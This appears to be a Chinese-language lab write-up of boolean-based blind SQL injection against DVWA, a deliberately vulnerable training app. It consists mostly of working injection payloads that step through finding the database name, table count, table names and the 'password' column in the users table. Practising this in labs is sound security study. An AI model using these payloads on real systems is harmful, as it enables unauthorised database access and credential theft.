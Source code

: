 1‘ and length(database())=4#
![image-20241026221118855](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026221118855.png)

爆库名：1' and ascii(substr(database(),1,1))>100#
![image-20241026223300525](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026223300525.png)

1' and ascii(substr(database(),1,1))=100#
![image-20241026223457675](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026223457675.png)

1' and ascii(substr(database(),2,1))=118#
![image-20241026223620413](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026223620413.png)

同理一个个二分法缩小范围，最终得出数据库名为dvwa

爆表数：1' and (select(select count(table_name) from information_schema.tables where table_schema='dvwa')>1)#
![image-20241026225155278](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026225155278.png)
1' and (select(select count(table_name) from information_schema.tables where table_schema='dvwa')>2)#
![image-20241026225226065](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026225226065.png)

1' and (select(select count(table_name) from information_schema.tables where table_schema='dvwa')=2)#
![image-20241026225251352](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026225251352.png)

爆第一张表长度：可得第一张表长为9

1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>8#           //exsist

1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>10#        //missing

同理，爆第二张表长度:可得为5

1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>4#    // //exist

1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>5#    //missing

爆表名，一个字符一个字符地猜

1' and (select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema='dvwa' limit 0,1)>100#  

可得第一张表第一个字符为g,依次类推可得第一张表为guessbook,第二张表为users

猜字段名称:1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password')=1#
![image-20241028221129407](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241028221129407.png)

说明users下有一个字段名为password，同理可猜到字段名user,通配符like可以缩小范围
